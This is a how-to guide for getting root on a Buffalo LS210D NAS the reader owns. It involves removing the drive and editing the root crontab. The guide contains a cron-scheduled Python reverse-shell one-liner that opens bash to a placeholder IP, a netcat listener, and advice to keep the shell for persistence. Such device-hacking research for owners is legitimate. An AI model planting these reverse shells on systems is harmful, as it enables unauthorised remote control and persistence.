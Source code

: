 Test

How to Hack your Buffalo LS210D and get Root  
Christopher J. Pace and Ryan Miller

The LS210D is a Network Attached Storage (NAS) drive manufactured by Buffalo. Despite having recent vulnerabilities, the NAS drive appears to be well made. One of the best features of this NAS is that it runs Linux, specifically kernel version 3.3.4 (ARM). This means that if you had full root access to the device, you could install additional software or write your own web server. The NAS also comes with Python 2.7.2 and PHP-CGI version 5.3.23, making it the perfect platform for tinkering. However, out-of-the-box, the NAS does not allow full root access or allow SSH connectivity. This guide, part of our research on vulnerabilities for the Buffalo LS210D, is provided for anyone who legitimately owns an LS210D and wishes to have that root access.

Other than firmware tampering, you can also get access to the Buffalo LS210D via an external hard drive reader and a spare PC. You can probably depress the plastic catches on the outside of the NAS drive, but I decided to take a more drastic approach.

![677640e06f4fad67bdf35a42f66e041f.png](resources/fead486f73b54fb7aa70b86f190bdfba.png)

Once you have opened your LS210D, you can see that a spinner is mounted into a SATA interface on the system board. Unscrew the screws on the hard drive, and then slide while lifting to remove the hard drive. You can also remove the hard drive bracket, which may make it easier to remove the hard drive. To remove the hard drive bracket, gently rock it back and forth before lifting. There is a thermal pad that sits between the hard drive bracket and the CPU, gently rocking the hard drive bracket will allow you to remove the pad without tearing it.

Inserting the hard drive into a Linux-based PC (or using free ext3 Windows utilities), mount the hard drive. From here, you are looking to modify the file /etc/cron/crontabs/root, where you can add the following two lines at the bottom:

**\*/5 \* \* \* \* /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("YOUR\_IP",8088));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/bash","-i"\]);'**  
**\*/5 \* \* \* \* /usr/sbin/sshd**

Obviously replace the text YOUR\_IP with the IP address of a computer on the same network as the LS210D, making sure to preserve the quotes. The first line spawns a shell via python, and connects to another computer’s netcat session. The second line spawns the SSH service. These commands are ran every 5 minutes, but there is no noticeable impact of having them re-run continuously. If you would like, you can remove the first line once you’ve established a stable SSH session.

Once you’ve written those two lines to the root crontab file, start a netcat session on your PC that is on the same network as the LS210D:

**netcat -l 8088**

Once that command has entered on your PC, put the LS210D back together, and start it up. Once the clock reaches any minute that is divisible by 5, you will have an incoming connection from the NAS to your listening netcat session.

![b2a0bc576fbfc44094e50bc3e93c3896.png](resources/35116a211d53477382e04b7db80c2f5f.png)

Once you receive the message “bash: no job control in this shell”, you’ll have full root privileges on the NAS. However, netcat is notoriously unstable, so you will want to immediately reset the root password via the ‘passwd’ command. Finally, you need to generate the host SSH keys, via these commands:

**ssh-keygen -t rsa -f /etc/ssh\_host\_rsa\_key -N ""**  
**ssh-keygen -t dsa -f /etc/ssh\_host\_dsa\_key -N ""**  
**ssh-keygen -t dsa -f /etc/ssh\_host\_key -N ""**

![a8151bf4681fa49083695abea169b187.png](resources/4d0e7d8737c645b0a44e9a41aa87ac8f.png)

Now, after another 5 minutes, you should be able to SSH into the NAS. Make sure to confirm SSH access before terminating your netcat session, to make sure you didn’t mistype your new root password. Enjoy your new root privileges!

**To enable persistence, leave the reverse shell intact. If the Buffalo NAS is shut down improperly or loses power, it will reset the root password back to the default. The reverse shell configuration will enable you to reset the password back to whatever you want.**